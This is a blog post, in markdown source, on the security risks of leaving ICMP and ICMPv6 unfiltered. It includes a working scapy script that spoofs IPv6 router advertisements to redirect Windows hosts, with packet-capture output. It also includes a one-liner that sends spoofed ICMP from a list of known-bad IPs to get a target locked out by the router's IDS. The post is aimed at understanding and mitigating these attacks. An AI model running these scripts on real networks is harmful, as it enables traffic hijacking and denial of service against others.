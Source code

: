 +++
Title = "Should I enable ICMP? (Pt. 1)"
Date = "2023-01-15T23:20:20-0800"
Author = "Paige"
Description = "Some thoughts on my experiences and in response to shouldiblockicmp.com"
cover = "img/og.png"
+++

> Yes!

## hold up...

Awhile ago I read an article called [Should I block ICMP](http://shouldiblockicmp.com)? The sentiment is pretty much in line with my own which is that ICMP is entirely necesarry for a variety of reasons especially in IPv6. Unfortunately my experience tells me that ICMP presents a lot of security problems when left unchecked and it's mostly or entirely left unchecked everywhere I've seen it left on. This will be an attempt to analyze some of the problems and present some insight as to how to mitigate some of the problems.

## IPv6 ND_RA

I have been most interested in this one for awhile. Router advertisements are really useful, but the deployment of IPv6 and it's reception has met with strong resistance and a disjointed comprehension of the theory behind things like router advertisements. Here is an example of how to abuse it using the scapy framework in python:

{{< highlight python >}}
from scapy.all import *
from ipaddress import IPv6Network

sendp((lambda lladdr, llsrc, lldst, prefixlen, prefix: Ether(dst = lldst, src = llsrc) 
/ IPv6(src = lladdr) / ICMPv6ND_RA() / ICMPv6NDOptSrcLLAddr(lladdr = llsrc) / ICMPv6NDOptMTU() 
/ ICMPv6NDOptPrefixInfo(prefixlen=prefixlen, prefix=prefix) / ICMPv6NDOptRouteInfo(prf = 1, plen = 3, 
prefix = "2000::", rtlifetime = 0xffffffff))("fe80::4398:6d2e:c5ca:cb73", "c0:3c:59:ed:e3:1f", 
"9c:b6:d0:3f:72:96", 64, next(IPv6Network("fc00:1d13:f001::/48").subnets(64)).network_address), count = 16)
{{< / highlight >}}

To clarify, this is a router advertisement spoofed as another computer as the source, to a windows machine as it's destination. Here's a complete breakdown of the assumptions and what it does: 

- Is able to send a spoofed ethernet header (mac address spoofing)
- Is able to send unfiltered router advertisements to `ff02::1`
- It relies on the fact that the host that it's being sent to will automatically accept the address that is advertised
(SLAAC)
- The spoofed source mac address is: `c0:3c:59:ed:e3:1f`
- The spoofed layer 3 link local source address is: `fe80::4398:6d2e:c5ca:cb73`
- The destination mac address is: `9c:b6:d0:3f:72:96`
- The destination layer 3 address is: `ff02::1` (Link-Local multicast all-nodes address)
- Both clients are connected to a wireless access point that is connected to a UDM Pro
- The filtering characteristics of the wireless access point are unknown 
- The UDM pro is configured without filtering (no IGMP snooping or ND_RA filtering.)

From the sender's perspective, the pcap of what they're sending will look like this: 

```
 00:00:00.000664 c0:3c:59:ed:e3:1f > 9c:b6:d0:3f:72:96, ethertype IPv6 (0x86dd), length 142: (hlim 255, next-header ICMPv6 (58) payload length: 88) fe80::4398:6d2e:c5ca:cb73 > ff02::1: [icmp6 sum ok] ICMP6, router advertisement, length 88
    hop limit 0, Flags [none], pref high, router lifetime 1800s, reachable time 0ms, retrans timer 0ms
      source link-address option (1), length 8 (1): c0:3c:59:ed:e3:1f
        0x0000:  c03c 59ed e31f
      mtu option (5), length 8 (1):  1280
        0x0000:  0000 0000 0500
      prefix info option (3), length 32 (4): fc00:1d13:f001::/64, Flags [onlink, auto], valid time infinity, pref. time infinity
        0x0000:  40c0 ffff ffff ffff ffff 0000 0000 fc00
        0x0010:  1d13 f001 0000 0000 0000 0000 0000
      route info option (24), length 24 (3):  2000::/3, pref=high, lifetime=infinity
        0x0000:  0308 ffff ffff 2000 0000 0000 0000 0000
        0x0010:  0000 0000 0000
    0x0000:  9cb6 d03f 7296 c03c 59ed e31f 86dd 6000  ...?r..<Y.....`.
    0x0010:  0000 0058 3aff fe80 0000 0000 0000 4398  ...X:.........C.
    0x0020:  6d2e c5ca cb73 ff02 0000 0000 0000 0000  m....s..........
    0x0030:  0000 0000 0001 8600 a2a1 0008 0708 0000  ................
    0x0040:  0000 0000 0000 0101 c03c 59ed e31f 0501  .........<Y.....
    0x0050:  0000 0000 0500 0304 40c0 ffff ffff ffff  ........@.......
    0x0060:  ffff 0000 0000 fc00 1d13 f001 0000 0000  ................
    0x0070:  0000 0000 0000 1803 0308 ffff ffff 2000  ................
    0x0080:  0000 0000 0000 0000 0000 0000 0000       ..............
    ```
```

And the result is it 100% works. The recipient sees essentially the same. Modern Windows 10 and 11 machines with IPv6 enabled will have SLAAC enabled by default. The client has now
configured the delegated prefix `fc00:1d13:f001::/64` for itself and configured `fe80::4398:6d2e:c5ca:cb73` as the gateway for `2000::/3`.

- It might be worth noting that traffic destined for `ff02::1` generally specifies a destination MAC address of [33:33:00:00:00:01](https://en.wikipedia.org/wiki/Multicast_address#Ethernet)

## Thrown under the IDS

UDM pro has some nifty security options for detecting suspicious network activity and locking out specific client or completely locking down the network. It might be possible to influence this behavior by eliciting an ICMP reply from a target to a blacklisted address:

{{< highlight python >}}
curl -s http://rules.emergingthreats.net/blockrules/compromised-ips.txt | shuf | sudo python3 -c 'import sys; 
from scapy.all import *; (lambda z, target, smac, dmac: [sendp(Ether(dst = dmac, src = smac)/IP(src = x.strip(), 
dst = target)/ICMP(id = y - 10000, seq = y - 10000)) for x, y in zip(z, range(10000, 10000 + 
len(z)))])(sys.stdin.readlines(), "192.168.1.12", "ff:ff:ff:ff:ff:ff", "9c:b6:d0:3f:72:96")'
{{< / highlight >}}

- `192.168.1.12` has a MAC address of `9c:b6:d0:3f:72:96` and it is the target of this attack
- Each IP in the compromised-ips.txt is paired with a unique id number (up to 10000 or less if there are fewer than 10000 IP addresses), and a packet is sent for each IP to `192.168.1.12` for each of the addresses as the source address. 
- The client receives this and sends a reply to the spoofed address
- The router receives the reply sent to the malicious address and locks out the client
- This can also be accomplished with TCP SYN causing a client to ACK @ a spoofed address. The same is true for UDP.

## There's a lot to think about 
For internet routers, networks have to implement [BCP38 practices](https://www.ietf.org/rfc/bcp/bcp38.html) to prevent packet spoofing but is often overlooked or in-actionable due to [scalability problems](https://ripe58.ripe.net/content/presentations/bgp-scaling-considerations.pdf). To be fair, the problem arises when a user decides to send a packet with the target of an attack's IP address specified as the source address to a large number of hosts; a small UDP packet it sent with a spoofed address to a destination and the destination sends a much larger response UDP packet to the specified source address--amplification attacks. 

- Global Unicast Addresses (GUAs) in IPv6 are "globally scoped" addresses. 

ISP's cannot delegate a prefix smaller than a `/64`, but even if they did, a `/64` is an incomprehensible amount of address space (18,446,744,073,709,551,616 addresses.) It's actually wasteful to configure each host with a `/64`. Neighbor Discovery Protocol is essential 
to making use of the entire addressable range of a `/64`. Essentially, the router is delegated the `/64`, and leases addresses from this block to clients on a network using DHCPv6 and/or SLAAC. NDP is comprised of ICMPv6 type `133`, `134`, `135`, `136`, `137`. Types `133`, `135`, and `136` must be unrestricted to `fe80::/10` and to the `/64` itself which isn't known until it is delegated by the ISP so this presents a chicken and egg problem for creating firewall rules; unless you can specify [hop count / next hop criteria](https://wiki.nftables.org/wiki-nftables/index.php/Matching_routing_information) for filtering ICMPv6.

GUA addresses are internet routable addresses. This presents a problem for people in terms of adoption of IPv6 because in general people tend to think about security in terms of this world vs. the world. Consequently, the world poeple will create calls for no solution that doesn't solve the problem. I won't say that configuring a firewall on everything is a reasonable solution, but I'm not saying that it isn't either.

Amazon came up with a way to describe a solution to make IPv6 meet half way with the fundamental way that people think about networking security called [Egress-only Gateways](https://docs.aws.amazon.com/vpc/latest/userguide/egress-only-internet-gateway.html). It's not a concept that is unique to Amazon. I'm not aware of a way this can be accomplished with BGP, this is undoubtedly made possible using a stateful firewall which for a lot of people remains a [scalability problem](https://people.netfilter.org/kadlec/nftest.pdf).

The unfortunate truth is that it's [never going to not be a scalability problem](https://en.wikipedia.org/wiki/Time_complexity). But there's a lot you can do now, that you haven't always been able to do with stateful firewalls as I've outlined in my [presentation on NFTables](https://paige.bio/nftables_presentation) such as [Flowtables](https://wiki.nftables.org/wiki-nftables/index.php/Flowtables). Another fantastic advantage of NFTables is the flexibility of the language itself to better realize the complexities of stateful queuing and measuring traffic as well as dynamically making adjustments based on measured traffic. 

For part 2, I'd like to cover some of the lesser known aspects of ICMP. Things like admin-prohibited and what they should mean but also why it's not as simple as just letting it be a REJECT as well as ways you can counter abuse. This is a topic I've been wanting to cover for a long time, but it's going to take awhile. 


